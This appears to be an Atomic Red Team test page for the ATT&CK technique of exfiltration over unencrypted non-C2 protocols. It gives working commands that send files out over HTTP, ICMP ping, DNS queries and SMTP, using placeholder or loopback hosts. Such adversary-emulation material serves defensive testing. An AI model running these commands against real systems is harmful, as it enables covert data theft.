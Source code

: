 # T1048.003 - Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048/003)
<blockquote>Adversaries may steal data by exfiltrating it over an un-encrypted network protocol other than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server. 

Adversaries may opt to obfuscate this data, without the use of encryption, within network protocols that are natively unencrypted (such as HTTP, FTP, or DNS). This may include custom or publicly available encoding/compression algorithms (such as base64) as well as embedding data within protocol headers and fields. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over Alternative Protocol - HTTP](#atomic-test-1---exfiltration-over-alternative-protocol---http)

- [Atomic Test #2 - Exfiltration Over Alternative Protocol - ICMP](#atomic-test-2---exfiltration-over-alternative-protocol---icmp)

- [Atomic Test #3 - Exfiltration Over Alternative Protocol - DNS](#atomic-test-3---exfiltration-over-alternative-protocol---dns)

- [Atomic Test #4 - Exfiltration Over Alternative Protocol - HTTP](#atomic-test-4---exfiltration-over-alternative-protocol---http)

- [Atomic Test #5 - Exfiltration Over Alternative Protocol - SMTP](#atomic-test-5---exfiltration-over-alternative-protocol---smtp)


<br/>

## Atomic Test #1 - Exfiltration Over Alternative Protocol - HTTP

auto_generated_guid: 1d1abbd6-a3d3-4b2e-bef5-c59293f46eff

A firewall rule (iptables or firewalld) will be needed to allow exfiltration on port 1337.

Upon successful execution, sh will be used to make a directory (/tmp/victim-staging-area), write a txt file, and host the directory with Python on port 1337, to be later downloaded.
**Supported Platforms:** macOS, Linux




#### Run it with these steps! 
1. Victim System Configuration:

    mkdir /tmp/victim-staging-area
    echo "this file will be exfiltrated" > /tmp/victim-staging-area/victim-file.txt

2. Using Python to establish a one-line HTTP server on victim system:

    cd /tmp/victim-staging-area
    python -m SimpleHTTPServer 1337

3. To retrieve the data from an adversary system:

    wget http://VICTIM_IP:1337/victim-file.txt







<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - ICMP

auto_generated_guid: dd4b4421-2e25-4593-90ae-7021947ad12e

Exfiltration of specified file over ICMP protocol.

Upon successful execution, powershell will utilize ping (icmp) to exfiltrate notepad.exe to a remote address (default 127.0.0.1). Results will be via stdout.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to be exfiltrated. | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent. | String | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path #{input_file} -Encoding Byte -ReadCount 1024) { $ping.Send("#{ip_address}", 1500, $Data) }
```






<br/>
<br/>

## Atomic Test #3 - Exfiltration Over Alternative Protocol - DNS

auto_generated_guid: c403b5a4-b5fc-49f2-b181-d1c80d27db45

Exfiltration of specified file over DNS protocol.
**Supported Platforms:** Linux




#### Run it with these steps! 
1. On the adversary machine run the below command.

    tshark -f "udp port 53" -Y "dns.qry.type == 1 and dns.flags.response == 0 and dns.qry.name matches ".domain"" >> received_data.txt

2. On the victim machine run the below commands.

    xxd -p input_file > encoded_data.hex | for data in `cat encoded_data.hex`; do dig $data.domain; done
    
3. Once the data is received, use the below command to recover the data.

    cat output_file | cut -d "A" -f 2 | cut -d " " -f 2 | cut -d "." -f 1 | sort | uniq | xxd -p -r







<br/>
<br/>

## Atomic Test #4 - Exfiltration Over Alternative Protocol - HTTP

auto_generated_guid: 6aa58451-1121-4490-a8e9-1dada3f1c68c

Exfiltration of specified file over HTTP.
Upon successful execution, powershell will invoke web request using POST method to exfiltrate notepad.exe to a remote address (default http://127.0.0.1). Results will be via stdout.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to exfiltrate | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| ip_address | Destination IP address where the data should be sent | String | http://127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
$content = Get-Content #{input_file}
Invoke-WebRequest -Uri #{ip_address} -Method POST -Body $content
```






<br/>
<br/>

## Atomic Test #5 - Exfiltration Over Alternative Protocol - SMTP

auto_generated_guid: ec3a835e-adca-4c7c-88d2-853b69c11bb9

Exfiltration of specified file over SMTP.
Upon successful execution, powershell will send an email with attached file to exfiltrateto a remote address. Results will be via stdout.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to exfiltrate | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| sender | The email address of the sender | String | test@corp.com|
| receiver | The email address of the receiver | String | test@corp.com|
| smtp_server | SMTP server to use for email transportation | String | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
Send-MailMessage -From #{sender} -To #{receiver} -Subject "T1048.003 Atomic Test" -Attachments #{input_file} -SmtpServer #{smtp_server}
```






<br/>
